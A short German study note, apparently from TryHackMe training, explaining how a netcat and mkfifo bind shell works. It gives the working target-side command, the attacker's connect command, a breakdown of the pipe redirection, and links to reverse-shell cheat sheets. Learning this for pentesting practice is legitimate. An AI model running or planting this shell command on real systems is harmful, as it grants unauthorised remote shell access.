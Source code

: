 * Analog zu [#standard-mkfifo-reverse-shell](#Linux:TryHackMe:Reverse & Bind Shells)

	rm /tmp/f; mkfifo /tmp/f; nc -lvnp PORT < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f


1. Obiger Code wird auf Ziel-Rechner ausgeführt
2. Dann auf angreifendem Rechner: ``nc ZIEL-IP PORT``


#### Erklärung
Lösche Datei ``/tmp/f`` & Erstelle *Named Pipe* ``/tmp/f`` → *Listener* wartet auf Eingaben → übergibt diese ``/bin/bash`` & [stderr](../Deskriptoren.md) wird auf [stdout](../Deskriptoren.md) geleitet → Ausgabe des Befehls, bzw. [stdout](../Deskriptoren.md) wird in die *Named Pipe* geleitet → *Listener* „liest‘ von der *Named Pipe* → Schickt Ausgabe der *Named Pipe* zurück (an mich) → Lösche ``/tmp/f``

#### Beispielhafter Ablauf
![](./Reverse_&_Bind_Shells/pasted_image003.png)

### Index

* ``nc`` [:Linux:**netcat & socat**](../netcat_&_socat.md)
* :Linux:**mkfifo (named pipes)**


Cheat Sheets
------------
@cheatsheet

* [Reverse Shell Cheatsheet − github](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* <https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>


